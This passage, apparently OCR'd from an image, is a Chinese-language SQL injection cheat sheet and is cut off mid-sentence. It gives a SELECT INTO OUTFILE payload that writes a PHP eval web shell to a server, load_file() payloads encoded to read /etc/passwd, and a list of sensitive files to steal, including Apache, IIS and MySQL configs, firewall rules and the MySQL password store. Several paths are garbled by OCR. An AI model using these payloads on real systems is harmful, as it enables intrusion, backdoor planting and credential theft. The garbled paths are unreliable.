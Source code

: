 ``` sql
条件：

1. 知道站点物理路径
2. 有足够大的权限（可以用select …. from mysql.user测试）
3. magic_quotes_gpc()=OFF
select '<?php eval_r($_POST[cmd])?>' into outfile '物理路径'
and 1=2 union all select 一句话HEX值 into outfile '路径'

load_file() 常用路径：

1. replace(load_file(0×2F6574632F706173737764),0×3c,0×20)

2. replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32)) 上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 “<” 替换成”空格” 返回的是网页.而无法查看到代码.

3. load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录

4. /etc tpd/conf tpd.conf或/usr/local/apche/conf tpd.conf 查看linux APACHE虚拟主机配置文件

5. c:\Program Files\Apache Group\Apache\conf \httpd.conf 或C:\apache\conf \httpd.conf 查看WINDOWS系统apache文件

6. c:/Resin-3.0.14/conf/resin.conf 查看jsp开发的网站 resin文件配置信息.

7. c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机

8. d:\APACHE\Apache2\conf\httpd.conf

9. C:\Program Files\mysql\my.ini

10. ../themes/darkblue_orange/layout.inc.php phpmyadmin 爆路径

11. c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置文件

12. /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

13. /usr/local/resin-pro-3.0.22/conf/resin.conf 同上

14. /usr/local/app/apache2/conf/extra tpd-vhosts.conf APASHE虚拟主机查看

15. /etc/sysconfig/iptables 本看防火墙策略
16. usr/local/app/php5 b/php.ini PHP 的相当设置
17. /etc/my.cnf MYSQL的配置文件
18. /etc/redhat-release 红帽子的系统版本
19. C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

20. /etc/sysconfig/network-scripts/ifcfg-eth0 查看IP.
21. /usr/local/app/php5 b/php.ini //PHP相关设置
22. /usr/local/app/apache2/conf/extra tpd-vhosts.conf //虚拟网站设置
23. C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini
24. c:\windows\my.ini
25. c:\boot.ini

网站常用配置文件 config.inc.php、config.php。load_file（）时要用replace（load_file(HEX)，char(60),char(32)）

注：

Char(60)表示 <
Char（32）表示 空格

手工注射时出现的问题：

当注射后页面显示：
```